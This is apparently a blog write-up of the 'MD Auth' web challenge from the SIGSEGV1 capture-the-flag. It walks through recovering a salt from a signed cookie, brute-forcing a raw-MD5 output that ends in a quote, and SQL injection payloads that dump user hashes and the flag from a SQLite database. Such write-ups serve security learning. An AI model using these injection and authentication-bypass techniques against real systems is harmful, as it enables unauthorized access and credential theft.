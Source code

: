 ```yaml
---
layout: post
title: SIGSEGV1 Writeup - MD Auth
---
```


Let's talk about the "MD Auth" challenge, I admit I started with this challenge thinking it would be about "Markdown"/ 
I was wrong but it was nonetheless interesting to solve.

The source code of the index was available by requesting : http://finale-docker.rtfm.re:4444/?source

{% highlight php%}
<?php
$_TITLE = 'MD Auth';
$_LONGTITLE = 'MD Auth';
$con = new SQLite3('mdauth.db');

require 'config.php'; # 7-digit APP_SALT, MAX_ERRORS and check_errors()
if(isset($_POST['login'], $_POST['password'])) {
    $errors = isset($_COOKIE['signed_errors']) ? check_errors($_COOKIE['signed_errors']) : 0;
    if($errors >= MAX_ERRORS) {
        presult('You have been banned for reaching '.MAX_ERRORS.' errors');
    } else {
        $login = $con->escapeString($_POST['login']);
        $hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
        $query = $con->query("SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'");
        if(!$query) $row=FALSE; 
        else $row = $query->fetchArray();

        if($row !== FALSE&& $query->fetchArray() === FALSE) {
            presult("Welcome back {$row['login']}!");
        } else {
            presult('Wrong username/password combination!');
            setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
        }
    }
{% endhighlight %}

At first I tried to access the database with my browser by requesting finale-docker.rtfm.re:4444/mdauth.db, unfortunately that didn't work. Let's dig deeper into the source code. We want to authenticate on the Web Application, maybe we can do an SQL injection inside the following query.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
{% endhighlight %}

In order to exploit this, we need to bypass the `escapeString` function used for `$login` and `$hash`.

{% highlight php%}
<?php
$login = $con->escapeString($_POST['login']);
$hash = md5($con->escapeString(APP_SALT.$_POST['password']), true);
?>
{% endhighlight %}

The `md5` function is called with the second argument set to `true`, meaning we will get a binary output instead of a hexadecimal one. We might be able to get a backslash in the binary output, but we need to know the `APP_SALT` value in order to do our offline bruteforce. The author of the challenge was kind enough to provide a way to get this secret by misusing the `cookie`.

{% highlight php%}
<?php
setcookie('signed_errors', md5(APP_SALT.((string) ($errors+1))), time()+86400);
?>
```
{% endhighlight %}

We can do a single failed attempt in order to get a cookie containing the md5(SALT+"1"), based on the comment in the code we know the SALT is between 0000000-9999999 (7-digit APP_SALT). 

I got `MD5:4322dfb1e9b20645594e9f3f6998845a` which correspond to the following `PLAIN:86203711`. We now have our APP_SALT value : 8620371. The following script will bruteforce the first 1000 numbers looking for a quote in the last char of the MD5 output.

{% highlight python%}
import requests
import hashlib

# md5 true : http://cvk.posthaven.com/sql-injection-with-raw-md5-hashes
def computeMD5hash(my_string):
    m = hashlib.md5()
    m.update(my_string.encode('utf-8'))
    return m.digest()

# Use the salt to find a string ending by "\"
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "\\" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

In my first attempt, I was looking for a backslash "\" in order to escape the single quote "'" from the query and use the login to complete the SQL injection.

{% highlight sql%}
SELECT login FROM users WHERE hash='{$hash}' and login='{$login}'
SELECT login FROM users WHERE hash='GARBAGE\' and login=' OR 1=1--' 
{% endhighlight %}

It would have worked in a MySQL database, unfortunately we were in front of a SQLite one. The documentation and stackoverflow provided the useful information, escaping is done by doubling the quote.

{% highlight sql%}
INSERT INTO table_name (field1, field2) VALUES (123, 'Hello there''s');
{% endhighlight %}

I adjusted the script to check for a single quote and got the number `45`.

{% highlight python%}
salt = "8620371"
for i in range(1000):
    md5 = computeMD5hash(salt+str(i))
    if "'" == md5[-1]:
        print(salt+str(i), i,  md5)
{% endhighlight %}

Now it's just a simple SQL injection, by using the following credential i was able to extract interesting data.

{% highlight sql%}
login = "union all select hash from users limit 1--"
password = "45"

The query looked like "SELECT login FROM users WHERE hash='GARBAGE'' and login=' union all select hash from users limit 1--'"
with hash='GARBAGE'' and login='
{% endhighlight %}

I got the following users : `admin` and `flaggy`. Next step was to extract the flag from the database, it was located in the flag_field of the users.

{% highlight bash%}
union all select flag_field from users limit 2,1--
Welcome back sigsegv{82e9f4a155b9b740b4ff37624429b031}!
{% endhighlight %}